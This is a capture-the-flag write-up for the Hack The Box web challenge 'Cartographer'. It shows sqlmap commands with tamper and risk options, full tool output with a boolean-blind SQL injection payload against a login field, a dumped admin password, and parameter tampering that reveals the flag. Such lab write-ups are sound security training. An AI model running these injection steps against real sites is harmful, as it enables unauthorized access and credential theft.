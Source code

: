 # Web Challenge: Cartographer (30 Points)

**Some underground hackers are developing a new command and control server. Can you break in and see what they are up to?**

<img src="cartographer-index.png">

We have a login page for this challenge and we need to break in. I guess we can use SQL Injection for this challenge.

Let's build our sqlmap command.

```
$ sqlmap -u "http://docker.hackthebox.eu:54683/" --data="username=admin&password=admin" --dbs
```

**-u** - indicates the url of the target website <br>
**--data** - indicates the the data string to be sent through POST <br>
**-dbs** - retrieves the databases <br>

My sqlmap command doesn't work and here's the full message from sqlmap:
```
[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
```

We need to add there parameters, ```-level```, `--risk`, and `--tamper`.

Let's re-build our sqlmap command and execute.

```
$ sqlmap -u "http://docker.hackthebox.eu:54683/" --data="username=admin&password=admin" --dbs --level=5 --risk=3 --tamper=space2comment
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:33:05

[16:33:05] [INFO] loading tamper script 'space2comment'
[16:33:05] [INFO] testing connection to the target URL
[16:33:06] [INFO] testing if the target URL content is stable
[16:33:06] [INFO] target URL content is stable
[16:33:06] [INFO] testing if POST parameter 'username' is dynamic
[16:33:07] [WARNING] POST parameter 'username' does not appear to be dynamic
[16:33:07] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[16:33:07] [INFO] testing for SQL injection on POST parameter 'username'
[16:33:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
sqlmap got a 302 redirect to 'http://docker.hackthebox.eu:54683/panel.php?info=home'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[16:34:30] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[16:35:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[16:35:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Generic comment)'
[16:36:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment)'
[16:36:27] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment) (NOT)'
[16:36:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:37:12] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:37:15] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="Is")
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[16:37:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:37:22] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:37:28] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[16:37:34] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[16:37:41] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[16:37:47] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[16:37:53] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[16:37:59] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[16:38:06] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[16:38:12] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[16:38:18] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[16:38:24] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[16:38:24] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 852 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-3755' OR 9186=9186#&password=admin
---
[16:38:50] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:38:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL Unknown
[16:38:50] [INFO] fetching database names
[16:38:50] [INFO] fetching number of databases
[16:38:50] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[16:38:50] [INFO] retrieved: 5
[16:38:54] [INFO] retrieved: information_schema
[16:39:48] [INFO] retrieved: cartographer
[16:40:22] [INFO] retrieved: mysql
[16:40:37] [INFO] retrieved: performance_schema
[16:41:28] [INFO] retrieved: sys
available databases [5]:
[*] cartographer
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[16:41:37] [INFO] fetched data logged to text files under '/Users/aj/.sqlmap/output/docker.hackthebox.eu'

[*] shutting down at 16:41:37
```

So we finally got the databases of the website. Next step is to dump all the data from cartographer database.

```
Database: cartographer
Table: users
[1 entry]
+----------+------------------------------+
| username | password                     |
+----------+------------------------------+
| admin    | mypasswordisfuckinawesome123 |
+----------+------------------------------+
```

Now that we have the username and password, let's now access the website.

<img src="panel.png">

The page says `Cartographer Is Still Under Construction!` and the URL is `http://docker.hackthebox.eu:54683/panel.php?info=home`

Maybe there's something in the source code? A comment? Let's try..

```html
<html>
<head>
    <title>Cartographer - Panel</title>
    <link rel='stylesheet' href='style.css' type='text/css' />
</head>
<body>
    <div class="content-container">
        <div class="blur"></div>
    </div>
    <div class="loginform">
        <center>
            <img src="logo.png" /><br><br>
            <br>Cartographer<br>Is Still<br>Under Construction!
        </center>
    </div>
</body>
</html>
```

Okay.. Nothing interesting with the source code. Then I just tried changing the value of info parameter from `home` to `flag` and poof, the flag suddenly appears on the page.

<img src="flag.png">

